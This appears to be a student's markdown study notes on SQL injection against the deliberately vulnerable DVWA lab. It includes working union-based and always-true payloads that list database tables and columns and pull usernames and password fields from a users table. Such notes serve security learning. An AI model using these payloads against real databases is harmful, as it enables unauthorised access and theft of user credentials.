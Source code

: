 # DVWA sql injection

Some basic things to know

**Error Based Injection**
- exploited through triggering errors in the database when invalid inputs are passed to it <br>[Error Based](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql)

**Union-Based Injection**
- Allows an attacker to extract information from the database by extending the results returned by the original query <br>[Union-Based Injection](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)

**Blind Injection**
- Paritial blind
    - queries that return HTTP Status Codes, or other markers in the HTML response, that indicate true or false statements <br>[Partial-Blind/Full-Blind](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)
- Full blind
    - [Partial-Blind/Full-Blind](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)

## DVMA explained in 
> [DVWA SQL Injection Exploitation Explained (Step-by-Step)](https://www.golinuxcloud.com/dvwa-sql-injection/#Step_1_Setup_DVWA_for_SQL_Injection)

## DVMA solutions
> https://bughacking.com/dvwa-ultimate-guide-first-steps-and-walkthrough/#SQL_Injection_Blind

## Security low

### Using basic injection
    Id is get from the web site parameter
    By executing simple sql such as
    Select (database attributes) from (database table) where (param) = '(value)';

### Always true
    %' or '1'='1'
    %' or '0'='0'
    any thing that is always true

    The percent sign does not equal anything and will be false so it the second part will be ran '1'='1'

    This will return all the users inside the database

### Database version

Similar to alway true

    %' or 0=0 union select null, version() #
    This show which database version it is running on at the end

### Display db user
    %' or 0=0 union select null, user() #

## Display all tables
    %' or 0=0 union select null, table_name from information_schema.tables #

## Display all the user table
    %' or 0=0 union select null, table_name from information_schema.tables # where table_name like 'user%'#

## Display all the columns
    %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #

## Display column fields
    %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #

## sql injection in general
> [Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)



# Easy inject

## Check if always true injection works

    ' OR ''='

> This will return all the First_name and surname

## Check number of columns return

    ' order by (n)#

> Keep increasing n until the returns unknown column

## Get the table name info using information_schema

    ' union select null, schema_name from information_schema.schemata#

> This will return all the information schema schemas
> 
> among the list, there is a table schema that we can take a look at

    ' union select null, table_name from information_schema.tables#

> This will return all the tables inside the database
> >
> One that can be seen is users,
> >
> If you cannot determine which one si the right table, check them all out

## Using table name to find the columns

    ' union select null, column_name from information_schema.tables where table_name='users'#

> This will return all the columsn from the current table name of "users"

## Get info

    ' union select null, (any column) from users #

> This will allow us to get any information from the table.
> >
> This method will also work when doing blind injection
